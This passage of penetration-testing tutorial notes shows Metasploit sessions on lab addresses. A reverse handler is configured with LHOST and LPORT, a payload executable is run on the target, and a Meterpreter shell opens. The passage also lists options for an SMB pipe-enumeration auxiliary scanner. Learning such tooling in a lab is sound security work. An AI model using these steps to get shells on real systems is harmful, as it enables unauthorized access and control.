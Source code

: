 ```
   EXITFUNC  process          yes       Exit technique: seh, thread, process,
                                          none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

--snip--
msf  exploit(handler) >
```

set the `LHOST` and the `LPORT` using the following commands

```
msf  exploit(handler) > set LHOST 192.168.20.9
LHOST => 192.168.20.9
msf  exploit(handler) > set LPORT 12345
LPORT => 12345
msf  exploit(handler) > exploit

[*] Started reverse handler on 192.168.20.9:12345
[*] Starting the payload handler...
```

now the handler is listening ...

login to the target machine and run the executable - we get the following shell

```
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:12345 -> 192.168.20.10:49437) at 2015-09-01 11:20:00 -0400

meterpreter >
```

### Using an Auxiliary Module

modules not used for exploitation are called _auxiliary modules_. They include things like vulnerability scanners, fuzzers and even DoS modules

!!! Note
  
    A good rule of thumb to remember is that exploit modules use a payload and auxiliary modules do not.

- auxiliary module to enumerate the listening pipes on a SMB server

`auxiliary/scanner/smb/pipe_auditor`

``` hl_lines="8 12"
msf > use scanner/smb/pipe_auditor
msf  auxiliary(pipe_auditor) > show options

Module options (auxiliary/scanner/smb/pipe_auditor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads
```
